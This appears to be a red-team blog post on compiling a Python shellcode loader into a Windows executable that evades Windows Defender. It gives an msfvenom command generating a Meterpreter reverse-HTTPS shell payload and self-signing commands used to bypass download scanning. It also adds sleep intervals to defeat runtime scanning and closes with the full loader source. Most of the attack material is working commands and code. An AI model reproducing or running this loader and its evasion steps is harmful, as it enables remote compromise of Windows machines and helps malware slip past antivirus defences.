 ```yaml
---
# Post Settings
title: "Pythonic Malware: Evading Detection with Compiled Executables"
date: "2022-04-11"

tags: ["python", "evasion"]
categories: ["blog"]
draft: false
toc: false

# Override default meta tags
noindex: false
author: false
description: ""
---
```




Creating Python executables during an offensive security engagement used to be an effective method of evasion. However, this tactic has become increasingly difficult on modern Windows endpoints.

In fact, even benign programs seem to get blocked immediately after touching disk. This is just one of the reasons red teamers have moved away from popular frameworks such as [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) and onto bigger-better things.

This post revisits compiled Python’s use in offensive security testing and shares my experiences launching Meterpreter shells on a fully patched Windows 10 system against Windows Defender.


## Malware Creation
Given my primary focus was on evasion tactics in the compiled executable, I created a simple shellcode loader as my “malware”. The script called common Windows functions such as `VirtualAlloc` & `CreateThread` to inject shellcode locally within the current process.

The payload itself utilized a `reverse_https` connection over port 443 and was generated by MSFVenom, without any encoding or obfuscation techniques:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

At this point, I didn't have much faith in the code and thought it was sure to get detected. However, when attempting to execute the Python script directly, no alerts were triggered and a reverse connection was established.

![](/images/posts/pythonic-malware/pm1_1.png)


## Compiling Python
Despite triggering a successful Meterpreter shell, we cant rely on Python being installed on every Windows workstation. Therefore, the next step is to compile the source code — making it executable without needing any additional resources on the host.

Compiling Python is performed using tools like `pyinstaller`, `py2exe`, or `cx_freeze`. These work by wrapping the bytecode version (`.pyc`) of the script and all required dependencies/interpreters into a single `.exe` file:


```bash
pyinstaller --onefile .\shellcode_loader.py
```

Unfortunately, when downloading the newly compiled `shellcode_loader.exe` onto the target system, I didn't get very far before receiving the following alert:

![](/images/posts/pythonic-malware/pm1_2.png)


## Evading Detection
### Code Signing
At this point, I thought about potential strategies to avoid detection and looked into signing the executable with a self-signed certificate.

Using the Visual Studio Developer Command Prompt, I executed the following commands to generate a certificate and sign the `shellcode_loader.exe` file.


```bash
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer
>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx
>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

Now, looking at the file’s properties, “Joe’s-Software-Emporium” was listed under Digital Signature details— (*Microsoft Default*). With that, the executable could be downloaded without detection.

![](/images/posts/pythonic-malware/pm1_3.png)


### Sleep Intervals
Although I was able to download the file, Windows Defender still flagged the program when attempting execution. That’s when I remembered reading [F-Secure’s post](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) about evading Windows Defender Runtime Scanning, which provided lots of great takeaways.

In short, I found adding various sleep intervals between the Win32 API calls bypassed runtime scanning and successfully triggered a working reverse shell.

![](/images/posts/pythonic-malware/pm1_4.png)


## Conclusion
A compiled Python executable wouldn’t be my first choice in a true red teaming engagement. However, this was a fun proof-of-concept and may prove useful in other areas of offensive security testing.


## Source Code:
A final copy of my `shellcode_loader.py` script is available below:
```python
import sys
import ctypes
import hashlib
from time import sleep
import ctypes.wintypes as wt
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def DecryptXOR(data, key):
    # Optional xor decryption method (not in use)
    data = bytearray(b64decode(data))
    l = len(key)
    keyAsInt = [x for x in map(ord, key)]
    return bytes(bytearray(((data[i] ^ keyAsInt[i % l]) for i in range(0,len(data)))))

def DecryptAES(data, key):
    # Optional AES decryption method (not in use)
    data = bytearray(b64decode(data))
    key = bytearray(b64decode(key))
    iv = 16 * b'\x00'
    cipher = AES.new(hashlib.sha256(key).digest(), AES.MODE_CBC, iv)
    return cipher.decrypt(pad(data, AES.block_size))

# msfvenom -p windows/x64/meterpreter/reverse_http lhost=0.0.0.0 lport=443 -f py
buf =  b""

try:
    # Function definitions
    kernel32 = ctypes.windll.kernel32

    kernel32.VirtualAlloc.argtypes = (wt.LPVOID, ctypes.c_size_t, wt.DWORD, wt.DWORD)
    kernel32.VirtualAlloc.restype = wt.LPVOID

    kernel32.CreateRemoteThread.argtypes = (wt.HANDLE, wt.LPVOID, ctypes.c_size_t, wt.LPVOID, wt.LPVOID, wt.DWORD, wt.LPVOID)
    kernel32.CreateThread.restype = wt.HANDLE

    kernel32.RtlMoveMemory.argtypes = (wt.LPVOID, wt.LPVOID, ctypes.c_size_t)
    kernel32.RtlMoveMemory.restype = wt.LPVOID

    kernel32.WaitForSingleObject.argtypes = (wt.HANDLE, wt.DWORD)
    kernel32.WaitForSingleObject.restype = wt.DWORD

    # Start Shellcode loader
    print("[+] Starting shellcode loader:")

    memAddr = kernel32.VirtualAlloc(None, len(buf), 0x3000, 0x40)
    print('[*] Allocated memory space at: {:08X}'.format(memAddr))

    print('[*] Interval sleep to avoid runtime detection (1/2).')
    sleep(5)

    kernel32.RtlMoveMemory(memAddr, buf, len(buf))
    print('[*] Copied payload into memory.')

    print('[*] Interval sleep to avoid runtime detection (2/2).')
    sleep(5)

    th = kernel32.CreateThread(
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.c_void_p(memAddr),
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.pointer(ctypes.c_int(0))
    )
    print('[*] Created thread in current process.')

    kernel32.WaitForSingleObject(th, -1)
except KeyboardInterrupt:
    print("[!] Key detected, closing")
    sys.exit(1)
except Exception as e:
    print("[-] Error: {}".format(str(e)))
    sys.exit(0)
```
